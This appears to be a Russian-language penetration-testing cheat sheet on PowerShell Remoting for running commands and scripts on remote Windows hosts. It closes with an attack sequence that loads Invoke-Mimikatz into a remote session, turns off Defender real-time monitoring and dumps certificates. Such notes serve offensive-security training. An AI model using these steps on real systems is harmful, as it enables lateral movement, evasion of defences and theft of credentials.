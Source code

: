 # Удаленный запуск скриптов (with privesc)

## Intro

Есть легальный способ удаленного запуска скриптов на других тачках (как **psexec**, но разрешено системой)

Включено по умолчанию, начиная с Windows Server 2012

Возможно, понадобиться включить удаленное исполнение (**Enable-PSRemoting**) на Win Desktop машине (привилегии админа для этого необходимы)

Мы получим shell **с повышенными  правами** на удаленной системе, если admin creds используются для аутентификации (это настройки по умолчаний).

## PowerShell Remoting

### One-to-One

PSSession\
\- Интерактивная\
\- Запускается в новом процессе (`wsmprovhost`)\
\- Stateful

Использует cmdlets:\
\- `New-PSSession`\
\- `Enter-PSSession`

### One-to-Many (Fan-out)

не интерактивна\
команды запускаются параллельно

Использует cmdlets:\
\- `Invoke-Command`

### Invoke-Command

Запускает команды и скрипты:\
\- на нескольких удаленных компьютерах\
\- in disconnected sessions (v3)\
\- как фоновая служба и многое др

Лучшая штука в PowerShell для передачи хешей, использования кредов и запуска команд на множестве удаленных компьютеров

Для передачи username/password использовать параметр **-Credential**

## Примеры

### Basic Usage

```powershell
# Новая сессия
$target_sess = New-PSSession -ComputerName TARGET
# Список доступных сессий PSRemoting
Get-PSSession
# Зайти в сессию (сможем выполнять команды на удаленном сервере с правами текущего пользователя)
Enter-PSSession $target_sess
# Закрыть сессию
Remove-PSSession $target_sess
```

### Подключение с использованием логина и пароля

```powershell
$Username = 'domain\myuser'
$Password = 'P@ssw0rd'
$pass = ConvertTo-SecureString -AsPlainText $Password -Force
$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass

Invoke-Command -ComputerName TARGET.domain.corp -ScriptBlock {whoami; hostname} -Credential $Cred

$target_sess = New-PSSession -ComputerName target.domain.corp -Credential $Cred
Enter-PSSession $target_sess
```

### Invoke-Command

```powershell
# Для запуска команд или скриптов, разделенных точкой с запятой
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Для запуска скриптов из файлов:
Invoke-Command –FilePath C:\MyScript.ps1 -ComputerName (Get-Content <list_of_servers>)

# Для запуска Stateful команд:
$Sess = New-PSSession –Computername SomeServer1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = Get-Process}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name} 
```

При соединении с удаленным сервером будет импортирован Invoke-Mimikatz.ps1

```powershell
[my comp] PS> powershell -ep bypass
[my comp] PS> $Sess = New-PSSession –Computername SomeServer1
[my comp] PS> Invoke-Command –Session $Sess -FilePath .\Invoke-Mimikatz.ps1
[my comp] PS> Enter-PSSession $Sess
[SomeServer1] PS> Set-MpPreference -DisableRealtimeMonitoring $true
[SomeServer1] PS> Invoke-Mimikatz -DumpCerts

```

